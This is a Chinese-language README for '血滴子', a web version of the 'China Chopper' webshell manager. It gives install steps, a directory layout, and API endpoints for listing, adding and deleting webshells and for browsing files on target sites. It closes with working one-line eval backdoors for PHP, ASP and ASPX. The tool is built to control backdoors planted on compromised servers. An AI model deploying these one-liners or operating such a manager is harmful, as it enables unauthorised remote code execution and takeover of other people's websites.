 ﻿> 项目介绍

为了更方便的而又跨平台的使用“中国菜刀”，我们创建了这个项目。该项目是Web版的"中国菜刀",我们暂时取名叫“血滴子”。欢迎感兴趣的朋友一起交流学习。

> 开发成员及负责方面

MXi4oyu(Python后端，用于处理“管理器对shell的核心操作”)。Email：798033502@qq.com

Black-Hole（JavaScrip前端，用于处理“管理器”在浏览器下的显示）。Email：158blackhole@gmail.com

> 安装方法

1. `pip install beaker`
2. `pip install pymysql`
3. `pip install sqlalchemy`
4. `pip install bottle_sqlalchemy`
5. `pip install jinja2`

> 项目的目录结构

```
www 根目录
├─App               应用目录
│  ├─Common             公共函数库
│  ├─Conf               配置目录
│  ├─Controller         控制器目录
│  ├─Model              模型目录
│  ├─View               视图目录
├─Core              核心目录
├─Public            静态资源目录
│  ├─js                 javascript文件目录branch
│  │  ├─branch          自定义javascript文件
│  │  ├─library         第三方javascript插件
│  ├─css                css文件目录
│  │  ├─branch          自定义css文件
│  │  ├─library         第三方css插件
│  ├─less               css引擎less文件目录
│  │  ├─branch          自定义less文件
│  ├─fonts              字体目录
│  ├─image              图像目录
├─index.py          入口文件
├─ip.txt            记录ip地址
├─passwd.py         生成密码
└─guillotines.sql   数据库文件
```

> API接口说明

#### 获取webshell总数
```javascript
地址:   /RootApi/webshell/total
方式:   GET
参数:   无
类型:   Number
示例:
512
```

#### 获取webshell列表
```javascript
地址:   /RootApi/webshell/list/<page:int>
#每页显示30条记录
方式:   POST
参数:   无
类型:   Json
示例:
{
	"type":"success",
	"info":[
		{
			"id":"1",
			"url":"http://github.com/1.php",
			"category":"PHP",
			"time":"2016-8-31 22:58:28"
		},
		{
			"id":"2",
			"url":"http://google.com/x.php",
			"category":"PHP",
			"time":"2016-8-31 22:59:02"
		}
	]
}
```

#### 添加单个webshell
```javascript
地址:   /RootApi/webshell/add
方式:   POST
参数:
{
	url:'url地址',
	password:'webshell的密码',
	category:'PHP'
}
类型:   Json
示例:
{
	"type":"success"
}
```

#### 删除单个webshell
```javascript
地址:   /RootApi/webshell/del
方式:   POST
参数:
{
	url:'url地址',
}
类型:   Json
示例:
{
	"type":"success"
}
```

#### 获取目标网站目录、文件
```javascript
地址:   /RootApi/webshell/listFiles
方式:   POST
参数:
{
	url:'url地址',
	path:'/usr/local/www'
}
类型:   Json
示例:
{
	"type":"success",
	"info":{
		"catalogue":[
			"App",
			"core",
			"view"
		],
		"files":[
			"index.html",
			"ip.txt",
			"passwd.py",
			"start.sh",
		]
	}
}
注意:   当path参数为空时，默认返回网站根目录。
```

#### 注意事项
只有当API的类型为`Json`格式时才会有错误信息，而且所有的`错误信息`都按照以下格式。
```javascript
{
	"type":"error",
	"info":"错误信息"
}
```

#### 血滴子一句话
```
PHP: <?php @eval($_POST['pass']);?>
ASP: <%eval request("pass")%>
ASPX: <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
```
